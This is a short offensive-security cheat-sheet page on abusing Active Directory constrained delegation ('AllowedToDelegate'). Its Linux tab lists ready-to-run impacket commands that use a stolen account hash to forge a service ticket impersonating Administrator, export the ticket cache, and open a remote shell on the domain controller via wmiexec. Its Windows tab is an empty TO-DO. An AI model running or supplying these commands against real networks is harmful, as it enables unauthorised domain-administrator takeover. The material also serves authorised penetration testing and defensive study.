 ```yaml
---
title: "AllowedToDelegate"
date: 2024-7-23
tags: ["AllowedToDelegate", "gMSADumper", "active driectory", "ad", "Windows", "privesc"]
---
```


### Privesc #1: Forge a Ticket

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```console
# For example, spn: www/dc.example.com (Check Bloodhound)
sudo ntpdate -s <DC> && impacket-getST -dc-ip <DC_IP> -spn www/<DC> -hashes :<HASH> -impersonate Administrator '<DOMAIN>/<USER>'
```

```console
# Export ccache
export KRB5CCNAME=Administrator.ccache
```

```console
# Remote
sudo ntpdate -s <DC> && wmiexec.py -k -no-pass administrator@<DC>
```

<small>*Note: impacket-wmiexec may not work*</small>

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. TO-DO

<div>

```console
TO-DO
```

</div>

{{< /tabcontent >}}

<br>